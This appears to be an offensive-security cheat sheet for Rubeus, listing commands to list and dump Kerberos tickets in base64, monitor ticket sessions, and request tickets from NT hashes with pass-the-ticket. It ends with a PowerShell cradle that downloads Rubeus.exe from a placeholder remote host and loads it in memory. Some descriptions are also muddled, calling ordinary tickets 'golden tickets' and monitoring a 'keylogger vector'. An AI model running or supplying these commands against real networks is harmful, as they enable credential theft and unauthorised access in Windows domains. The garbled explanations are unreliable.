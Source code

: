 # Rubeus

## 01 - Basic Commands

List golden tickets that are being used.

```
C:\> Rubeus.exe klist
```

A much nicer way to see the golden tickets when using `triage` flag

```
C:\> Rubeus.exe triage
```

If the tickets exist dump them into base64 encoded

```
C:\> Rubeus.exe dump /nowrap
```

Monitors the number of golden ticket sessions for every 10 seconds this is useful as a keylogger vector

```
C:\> Rubeus.exe monitor /interval:10 /nowrap

C:\> Rubeus.exe asktgt /domain:<domain> /user:<username> /rc4:<nt_hash> /ptt

C:\> Rubeus.exe asktgt /domain:<domain> /user:<username> /aes256:<nt_hash> /createnetonly:C:\Windows\System32\cmd.exe /ptt
```

## 02 - Download and Execute

```powershell
PS C:\> $data = (New-Object Net.WebClient).DownloadString('http://<IP>/Rubeus.exe')
$assembly = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("purge".Split())
```